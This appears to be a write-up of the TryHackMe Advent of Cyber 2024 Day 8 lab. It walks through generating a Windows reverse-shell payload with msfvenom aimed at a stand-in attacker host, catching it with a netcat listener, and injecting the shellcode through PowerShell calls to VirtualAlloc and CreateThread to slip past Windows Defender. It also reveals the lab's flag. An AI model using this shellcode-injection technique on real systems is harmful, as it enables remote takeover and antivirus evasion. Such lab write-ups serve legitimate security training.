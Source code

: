 ### TryHackMe Advent of Cyber 2024 - Day 8 Writeup: Shellcodes of the World, Unite!
**Objective:**  
In this task, the goal was to gain access to a Windows machine using a reverse shell and retrieve the flag from `C:\Users\glitch\Desktop\flag.txt`.

### Steps and Commands Used:
1. **Generating Shellcode Using msfvenom:** The reverse shell payload was generated using `msfvenom` with the following command:
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell`
    
    Replace `ATTACKBOX_IP` with your machine's IP address. This generates the shellcode in PowerShell format.
    
2. **Listening on Port 4444:** A listener was started on the AttackBox to listen for the incoming reverse shell connection:
    `nc -nvlp 4444`
    
3. **Executing the PowerShell Script on the Victim Machine:** On the victim machine (Windows), a PowerShell script was used to allocate memory and prepare for executing the shellcode. The script utilized Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`.
    
    The code snippets provided by TryHackMe were used to load the necessary functions for allocating memory and creating a thread to execute the shellcode.
    
4. **Adding and Executing the Shellcode in PowerShell:** After adding the appropriate C# code to the PowerShell script, the following byte code (which was output by `msfvenom`) was inserted into the script:
    `[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,...`
    
    Then the following lines of code were executed to load the shellcode into memory and create a new thread to run it:
    `[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length) $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0) [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`
    
5. **Receiving the Reverse Shell:** Upon executing the third line of code to create the thread, a reverse shell was initiated, allowing control over the victim's machine.
    
6. **Retrieving the Flag:** After obtaining the reverse shell, the flag could be accessed by typing the following command:
    `type C:\Users\glitch\Desktop\flag.txt`
    
    **Flag:**  
    The flag was retrieved after a minute and was as follows:
    `AOC{GOT_MY_ACCESS_B@CK007}`
    

---

### Conclusion:

This task demonstrated the process of using PowerShell to execute shellcode and bypassing security mechanisms like Windows Defender by using reflective injection techniques. The reverse shell allowed access to the victim machine, where the flag could be obtained.